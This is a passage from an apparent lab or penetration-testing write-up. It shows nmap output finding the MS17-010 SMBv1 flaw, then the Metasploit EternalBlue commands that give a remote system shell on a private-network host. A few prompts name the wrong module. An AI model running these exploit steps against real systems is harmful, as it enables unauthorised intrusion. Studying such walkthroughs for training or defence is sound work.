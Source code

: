 	|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
	|     State: VULNERABLE
	|     IDs:  CVE:CVE-2017-0143
	|     Risk factor: HIGH
	|       A critical remote code execution vulnerability exists in Microsoft SMBv1
	|        servers (ms17-010).
	|           
	|     Disclosure date: 2017-03-14
	|     References:
	|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
	|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
	|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
	|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
	Nmap done: 1 IP address (1 host up) scanned in 5.66 seconds

- Ran the nmap script to disclose the vulnerbility.

### 5. Exploitation

- Use of Metasploit to attack the machine using 'EternalBlue' exploit.

1.	msf > use exploit/windows/smb/ms17_010_eternalblue
2.	exploit(windows/smb/ms17_010_eternalblue) >  show targets
	
		Exploit targets:
		.
	   	Id  Name
	   	.
	    	0   Automatic Target
	   	1   Windows 7
	   	2   Windows Embedded Standard 7
	   	3   Windows Server 2008 R2
	   	4   Windows 8
	   	5   Windows 8.1
	   	6   Windows Server 2012
	   	7   Windows 10 Pro
	   	8   Windows 10 Enterprise Evaluation

3.	msf exploit(navigate_cms_rce) > set TARGET 0

4.	msf exploit(navigate_cms_rce) > show options

5.	exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.100.208

6.	exploit(windows/smb/ms17_010_eternalblue) > exploit

		meterpreter > shell
		Process 1080 created.
		Channel 1 created.
		Microsoft Windows [Version 6.1.7601]
		Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

		C:\Windows\system32>

- We have pawned the machine!!
